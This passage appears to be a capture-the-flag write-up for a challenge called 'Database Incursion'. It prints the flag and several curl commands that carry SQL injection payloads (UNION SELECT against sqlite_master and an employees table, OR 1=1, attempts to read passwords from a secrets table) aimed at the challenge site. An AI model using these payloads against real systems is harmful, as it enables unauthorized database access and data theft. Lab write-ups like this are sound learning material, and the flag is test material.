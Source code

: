 ## What I learned`
How to use ghidra and IDA for decompiling codes and functions

## References 
Google,Youtube,Gemini and Chatgpt

`--------------------------------------------------------------------------------------------------------------------`

# Challenge Name
Database Incursion

## My solve
**Flag:** `citadel{wh3n_w1ll_y0u_f1nd_0u7_1f_175_5ql_0r_53qu3l?}`

This challenge was a classic example of sequel injection. I tried a lot sql injection commands with the help of AI.
Here I'll walk through the right ones to show how I proceded.`curl -G "https://databaseincursion.citadel.cryptonitemit.in/search.html" --data-urlencode "q=' UNION SELECT NULL,name,sql FROM sqlite_master WHERE type='table'-- -"` I used this command to get to the employee search directory. The biggest hint was that someone from management has the key so after trying multiple sql injection involving management and admin and other text I finally got the right one which is `curl -G "https://databaseincursion.citadel.cryptonitemit.in/search.html" --data-urlencode "q=' UNION SELECT id,name,notes,email,null FROM employees WHERE notes LIKE 'citadel%'-- -"` What this command does is that it searches through all content on the site for "citadel" text and hence gets us the flag.
some wrong commands I used are as follows:

`"curl -G "https://databaseincursion.citadel.cryptonitemit.in/search.html" --data-urlencode "q=' UNION SELECT NULL,NULL,data FROM flag-- -""`

`"curl -G "https://databaseincursion.citadel.cryptonitemit.in/search.html" --data-urlencode "q=' UNION SELECT NULL,name,tbl_name,sql,NULL FROM sqlite_master WHERE type='table'-- -""` 

`"curl -G "https://databaseincursion.citadel.cryptonitemit.in/search.html" --data-urlencode "q=' UNION SELECT NULL,NULL,NULL,password,NULL FROM secrets-- -""`

`"curl -G "https://databaseincursion.citadel.cryptonitemit.in/search.html" --data-urlencode "q=' OR 1=1-- -""`


![](images/sql1.png)